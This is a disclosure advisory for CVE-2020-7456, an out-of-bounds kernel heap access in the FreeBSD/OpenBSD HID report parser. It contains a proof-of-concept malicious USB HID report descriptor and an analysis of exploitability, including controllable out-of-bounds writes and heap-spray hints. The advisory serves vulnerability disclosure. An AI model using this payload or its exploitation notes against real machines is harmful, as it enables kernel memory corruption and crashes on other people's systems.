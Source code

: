 ```yaml
---
title: ' BSD: Out-of-bounds kernel heap access in hib_get_item for FreeBSD and OpenBSD'
published: '2020-09-01T19:01:42Z'
severity: Moderate
ghsa_id: GHSA-2j5v-f98f-f9gr
cve_id: CVE-2020-7456
weaknesses: []
products:
- ecosystem: ''
  package_name: ''
  affected_versions: FreeBSD 12.1-STABLE
  patched_versions: r361918
cvss: null
credits:
- github_user_id: TheOfficialFloW
  name: Andy Nguyen
  avatar: https://avatars.githubusercontent.com/u/14246466?s=40&v=4
---
```


# FreeBSD/OpenBSD: hid_get_item out-of-bounds kernel heap access

## Summary

An attacker with physical access to a machine can cause an out-of-bounds read or write on kernel heap by plugging in a malicious USB HID device.

## Severity

We deem this vulnerability as medium since it is available in default configuration and is very likely exploitable, though it requires physical access.

## Proof Of Concept

Emulate the following HID report descriptor with your USB device. You will see a lot of `hid_get_item: Cannot push item @ X` debug messages on screen. Repeat this for a few times and you may eventually observe a kernel panic.

```c
const uint8_t hid_report[] = {
	// Between 0 and 0xFF of PUSH'es.
	// One PUSH increments the hid_data->cur pointer by sizeof(struct hid_item).
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	0xA4,                         // PUSH
	// ...

	// Make hid_get_item repeat once again.
	0xA1, 0x01,                   // Collection (Application)

	// Controllable content that can be written out-of-bounds.
	// ---------HOLE--------- //  // 0x00 Usage Page
	0x17, 0x41, 0x41, 0x41, 0x41, // 0x04 Logical Minimum
	0x27, 0x42, 0x42, 0x42, 0x42, // 0x08 Logical Maximum
	0x37, 0x43, 0x43, 0x43, 0x43, // 0x0C Physical Minimum
	0x47, 0x44, 0x44, 0x44, 0x44, // 0x10 Physical Maximum
	0x57, 0x45, 0x45, 0x45, 0x45, // 0x14 Unit Exponent
	0x67, 0x46, 0x46, 0x46, 0x46, // 0x18 Unit
	0x87, 0x47, 0x47, 0x47, 0x47, // 0x1C Report ID
	// ---------HOLE--------- //  // 0x20 Usage
	0x1B, 0x48, 0x48, 0x48, 0x48, // 0x24 Usage Minimum
	0x2B, 0x49, 0x49, 0x49, 0x49, // 0x28 Usage Maximum
	0x3B, 0x4A, 0x4A, 0x4A, 0x4A, // 0x2C Designator Index
	0x4B, 0x4B, 0x4B, 0x4B, 0x4B, // 0x30 Designator Minimum
	0x5B, 0x4C, 0x4C, 0x4C, 0x4C, // 0x34 Designator Maximum
	0x7B, 0x4D, 0x4D, 0x4D, 0x4D, // 0x38 String Index
	0x8B, 0x4E, 0x4E, 0x4E, 0x4E, // 0x3C String Minimum
	0x9B, 0x4F, 0x4F, 0x4F, 0x4F, // 0x40 String Maximum
	0xAB, 0x50, 0x50, 0x50, 0x50, // 0x44 Set Delimiter

	// Report end.
	0x0B, 0x06, 0x00, 0x01, 0x00, // Usage Last
	0xA1, 0x01,                   // Collection (Application)
};
```

## Analysis

### Vulnerability

The vulnerability lies in the PUSH/POP items of the HID report parser:

```c
			case 10:	/* Push */
				s->pushlevel ++;
				if (s->pushlevel < MAXPUSH) {
					s->cur[s->pushlevel] = *c;
					/* store size and count */
					c->loc.size = s->loc_size;
					c->loc.count = s->loc_count;
					/* update current item pointer */
					c = &s->cur[s->pushlevel];
				} else {
					DPRINTFN(0, "Cannot push "
					    "item @ %d\n", s->pushlevel);
				}
				break;
			case 11:	/* Pop */
				s->pushlevel --;
				if (s->pushlevel < MAXPUSH) {
					/* preserve position */
					oldpos = c->loc.pos;
					c = &s->cur[s->pushlevel];
					/* restore size and count */
					s->loc_size = c->loc.size;
					s->loc_count = c->loc.count;
					/* set default item location */
					c->loc.pos = oldpos;
					c->loc.size = 0;
					c->loc.count = 0;
				} else {
					DPRINTFN(0, "Cannot pop "
					    "item @ %d\n", s->pushlevel);
				}
				break;
```

Namely, the 8bit `s->pushlevel` is incremented/decremented outside of the `if (s->pushlevel < MAXPUSH) {` block, which means that `s->pushlevel` can have any values between 0 and 255. The side effect of having a bigger value than `MAXPUSH=4` is that (harmless) debug messages will be printed on screen.

Now, an arbitrary `s->pushlevel` cannot achieve anything in these two items other than showing the debug message. Though, `s->pushlevel` is also referenced at the beginning of `hid_get_item`:

```c
int
hid_get_item(struct hid_data *s, struct hid_item *h)
{
	struct hid_item *c;
	unsigned int bTag, bType, bSize;
	uint32_t oldpos;
	int32_t mask;
	int32_t dval;

	if (s == NULL)
		return (0);

	c = &s->cur[s->pushlevel];
```

and `c` is accessed all over the place. For example:

```c
			switch (bTag) {
			case 0:
				c->_usage_page = dval << 16;
				break;
			case 1:
				c->logical_minimum = dval;
				break;
			case 2:
				c->logical_maximum = dval;
				break;
			case 3:
				c->physical_minimum = dval;
				break;
			case 4:
				c->physical_maximum = dval;
				break;
			case 5:
				c->unit_exponent = dval;
				break;
			case 6:
				c->unit = dval;
				break;
```

In order to reach them, we must let `hid_get_item` run once again. This can be done by ending `hid_get_item` with a collection item:

```c
			case 10:	/* Collection */
				c->kind = hid_collection;
				c->collection = dval;
				c->collevel++;
				c->usage = s->usage_last;
				*h = *c;
				return (1);
```

Since `hid_get_item` is invoked within a loop to search for the right kind of collection, the next iteration will use the malicious `s->pushlevel` value.

### Exploitability

The `cur` array is located at offset `0x18` within `hid_data`. It is of type `hid_item` which has a size of `0x64` bytes. Almost all of its content is controllable by the HID report descriptor. Using items such as `Logical Minimum`, `Designator Minimum`, etc. one can controllably write 32bit integers. The `hid_data` structure has a size of `0x448` bytes, which means it will be allocated within the `0x800` bytes zone. This is quite a common size in the kernel with lots of interesting heap primitives to attack (e.g. USB endpoints can be sprayed in this zone).